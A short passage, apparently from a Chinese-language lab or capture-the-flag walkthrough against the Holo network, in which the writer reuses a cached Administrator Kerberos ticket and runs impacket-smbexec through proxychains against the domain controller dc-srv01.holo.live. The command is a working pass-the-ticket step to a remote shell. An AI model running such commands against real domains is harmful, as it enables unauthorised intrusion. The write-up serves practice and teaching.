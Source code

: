 [![](assets/1711556160-c50d6b025de9ab98e774ee01a3e7c496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806205006-c495feb2-3457-1.png)

可以拿到TGT,但是脚本只能打一次，不过我们依然可以拿到之前的缓存TGT去认证：

```plain
KRB5CCNAME='Administrator.ccache'  proxychains  /usr/bin/impacket-smbexec -target-ip 10.200.107.30 -dc-ip 10.200.107.30 -k  -no-pass @'dc-srv01.holo.live'
```
